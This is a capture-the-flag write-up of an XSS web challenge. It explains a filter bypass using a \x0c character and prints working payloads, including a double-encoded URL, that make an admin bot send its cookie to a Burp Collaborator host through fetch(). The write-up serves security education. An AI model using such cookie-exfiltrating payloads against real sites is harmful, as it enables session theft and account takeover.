

## XSS 401 - Web challenge



#### Author: p4w

### Solution
We can spot the __XSS__ vuln. by reading the code:


As you can notice the url parameter is passed as an argument to the URL constructor. So we have a potential __XSS__ through the __URL.hostname__. The problem is to reach the __vulnerable code at line 75__ we don't let the application failing and trigger an exception when the `new URL(url)` (line 62) is called.

__XSS__ Limitation, we can't use the following list of characters:
* no white space (`\x20`)
* no slashes (`/`) or backslashes (`\`)
* no `@`, `\x0c`, `:`, ....
* null byte (`\x00`) and \n (`\x0a`) will be stripped out
* only lowercase letters (JavaScript is case sensitive, html is not)

Bypass for the space character between the tag name and attributes can be done using `\x0c`. You can find this result using a simple fuzzer like the following ([fuzzer link here](./fuzzer.html)).


Here there is few screen-shots showing that `alert(1337)` function got executed:


From there is just question of creativity to build a working payload and steal the admin cookie.


__XSS__ payload url-decoded, the `\x0c` character is not printable but is there :D
```
http://<html><body>
```

__XSS__ payload:
```
http://%3Chtml%3E%3Cbody%3E%3Cimg%0Csrc=%220%22onerror=%22fetch(location.href.substr(0,8)%2b%272or6d71urhtbh5vl2247o9xz2q8mwb.burpcollaborator.net%27%2blocation.href.substr(7,1)%2bdocument.cookie)%22%3E
```

__JavaScript__ code to leak the cookie (all lowercase):
```
fetch(location.href.substr(0,8)+'2or6d71urhtbh5vl2247o9xz2q8mwb.burpcollaborator.net'+location.href.substr(7,1)+document.cookie)
```

__Final__ payload (submit to the bot this URL, double URL encode the second part):
```
https://wsc-2022-web-5-bvel4oasra-uc.a.run.app/visit?url=https://wsc-2022-web-5-bvel4oasra-uc.a.run.app/visit?url=http%3a//%253Chtml%253E%253Cbody%253E%253Cimg%250Csrc%3d%25220%2522onerror%3d%2522fetch(location.href.substr(0,8)%252b%25272or6d71urhtbh5vl2247o9xz2q8mwb.burpcollaborator.net%2527%252blocation.href.substr(7,1)%252bdocument.cookie)%2522%253E
```

Leaking the flag:


